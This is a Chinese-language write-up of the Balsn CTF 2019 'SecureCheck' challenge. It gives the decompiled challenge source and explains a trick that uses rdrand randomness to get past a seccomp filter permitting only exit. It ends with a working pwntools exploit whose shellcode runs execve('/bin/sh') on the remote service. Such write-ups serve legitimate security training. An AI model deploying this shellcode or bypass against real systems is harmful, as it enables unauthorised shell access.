 # Balsn CTF 2019

## Misc SecureCheck - 330

### Description

No system call no pain

```
nc securecheck.balsnctf.com 54321
```

Download

Author: Billy

### Solution

by [@HexRabbit](https://blog.hexrabbit.io)

這題說起來其實相當容易，前提是不要被想法限制住

題目 binary 逆向完大概長這樣
```cpp
void exit_syscall_filter()
{
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_KILL);
  seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
  seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
  seccomp_load(ctx);
}


int main() {
    int status;
    char *buf = mmap(0, 
                    0x1000, 
                    PROT_WRITE|PROT_READ|PROT_EXEC,
                    MAP_SHARED|MAP_ANONYMOUS, -1, 0);
    read(0, buf, 0x1000);
    
    void (*f)() = (void (*)())buf;
    if (!fork()) {
        exit_syscall_filter();
        f();
    }
    else {
        wait(&status);
        if(!status)
            f();
    }
}
```

題目讓使用者輸入一段 shellcode，接著 `fork()` 讓 child 先執行 seccomp 後跳進 shellcode，而 parent 會以 `wait()` 等待 child 返回，若是返回值為零，parent 也會執行相同的 shellcode

比較麻煩的是，由於 fork 會完整複製(by copy-on-write)一份相同的 process context 給 child，所以在 child 中的記憶體操作是不會影響到 parent process 的

瞭解這些限制後解題思路便是:「寫一份 shellcode 可以在判別 parent/child 後執行不同的指令」

不過接下來就卡住了，因為在 seccomp 限制下實在是難以找到方式辨別 child/parent。再來便是想到一些存在於 vDSO 內的 function 可以繞過 seccomp，如 time, gettimeofday .. 等，但苦於執行 shellcode 前幾乎把所有 register 的值都清掉了，也就找不到 vDSO base

最後隊友 [@jaidTw](https://github.com/jaidTw) 想到，何不乾脆在 shellcode 中使用一些每次執行的結果都不同的指令，然後透過判斷後一邊執行一邊不執行 syscall 呢?

翻閱技術文件，找到幾個好用的指令
- rdtsc
- rdtscp
- rdrand
- rdseed

於是就解出來了XD

最終的 exploit 如下: 

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'amd64'
context.terminal = ['tmux', 'neww']
r = remote('securecheck.balsnctf.com', 54321)

sc = asm('''
    rdrand eax
    and eax, 0x1
    cmp ax, 0x1
    je SYSCALL
    mov eax, 0x3c
    xor edi, edi
    syscall
    
SYSCALL:
    lea rsp, [rdx+0xf00]
    mov rdi, 0x0068732f6e69622f
    push rdi
    mov rdi, rsp
    mov eax, 0x3b
    xor esi, esi
    xor edx, edx
    syscall
''')

r.send(sc)

r.interactive()
```
